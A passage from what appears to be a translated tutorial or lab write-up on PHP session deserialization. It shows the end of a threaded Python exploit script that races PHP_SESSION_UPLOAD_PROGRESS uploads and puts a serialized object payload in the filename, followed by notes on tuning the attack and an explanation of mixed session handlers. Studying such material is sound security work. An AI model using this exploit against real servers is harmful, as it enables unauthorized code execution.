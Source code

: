 ```python
        'Upgrade-Insecure-Requests': '1'
        }
        proxy = {
        'http': '127.0.0.1:8080'
        }
        data={'PHP_SESSION_UPLOAD_PROGRESS':'123'}
        files={
            'file':(r'|O:4:\"Door\":1:{s:6:\"handle\";O:2:\"IP\":1:{s:2:\"ip\";s:10:\"phpinfo();\";}}',f,'text/plain')
        }
        resp = requests.post(url,headers=headers,data=data,files=files,proxies=proxy) #,proxies=proxy
        resp.encoding="utf-8"
        if len(resp.text)<2000:
            print('[++++]retry')
        else:
            print(resp.content.decode('utf-8').encode('utf-8'))
            et.clear()
            print('success!')
            
​
if __name__ == "__main__":
    ip=sys.argv[1]
    port=int(sys.argv[2])
    et=threading.Event()
    for i in range(1,40):
        threading.Thread(target=exp,args=(ip,port)).start()
    et.set()
​
```

Add a proxy to the code and use burpsuite to catch the package

![Insert the picture description here](https://img-blog.csdnimg.cn/20210524233252144.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
Here are a few notes:
- PHPSESSID must be, because it is necessary to compete for the same file
- filename is controllable, but add | at the front of the value, because the ultimate goal is to use the deserialization of session, PHP_SESSION_UPLOAD_PROGRESS is just a springboard; secondly, double quotes in the string are escaped to prevent conflicts with the outermost double quotes
- The uploaded file should be larger, otherwise it will be difficult to compete for success; write f = io.BytesIO(b'a' * 1024 *1024*1)
- An error occurs when Chinese characters appear in the filename value, so before using the script, you must modify the python source code

> Remove the proxy in exp.py and run exp.py directly. The effect is as follows

![Insert the picture description here](https://img-blog.csdnimg.cn/20210524233501242.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
## Use different engines to process session files

The serialization formats generated by the php processor and the php_serialize processor are not problematic in themselves, but if these two processors are mixed, it will cause harm. The principle of formation is that when the characters stored in session.serialize_handler = php_serialize can be introduced into | , and then the value of $_SESSION is taken out in session.serialize_handler = php format, | will be regarded as a key-value pair separator, which will cause deserialization vulnerabilities in specific places.
We create a session.php to transfer session value, the code inside is as follows
